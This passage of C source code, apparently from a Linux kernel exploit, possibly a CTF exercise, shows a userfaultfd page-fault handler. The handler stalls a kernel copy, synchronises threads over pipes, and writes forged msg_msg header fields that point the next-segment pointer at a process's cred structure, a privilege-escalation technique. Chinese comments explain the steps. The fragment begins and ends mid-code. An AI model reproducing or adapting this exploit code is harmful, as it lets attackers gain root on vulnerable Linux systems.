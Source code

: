 ```c
        if (nread == 0)
        {
            err_exit("EOF on userfaultfd!\n");
        }

        if (nread == -1)
        {
            err_exit("read");
        }

        if (msg.event != UFFD_EVENT_PAGEFAULT)
        {
            err_exit("Unexpected event on userfaultfd\n");
        }

        /* Write your code here */

        /* Ends here */

        /* set the return value of copy_from/to_user */
        char buf[1];
        write(pipe_fd1[1], "A", 1); // 到这里就已经创建好了msg_msg->msg_seg,就先不执行了,通知thread2执行
        read(pipe_fd2[0], buf, 1);  // msg_seg->cred创建好了,开始写
        page1[0] = 0;          // 最后8字节
        page1[1] = 0xdeadbeaf; // m_list的后一个
        page1[2] = 1;          // m_type
        page1[3] = 0x1000 - 0x30 + 0x40 - 8;
        page1[4] = cur_cred - 8;
        /* Ends here */

        uffdio_copy.src = (unsigned long long)page1;
        uffdio_copy.dst = (unsigned long long)msg.arg.pagefault.address &
                          ~(0x1000 - 1);
        uffdio_copy.len = 0x1000;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        {
            err_exit("ioctl-UFFDIO_COPY");
        }

        write(pipe_fd3[1], "A", 1);
        return NULL;
    }
}

void *uffd_handler2(void *args)
{
    struct uffd_msg msg;
    int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long)args;

    for (;;)
    {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
```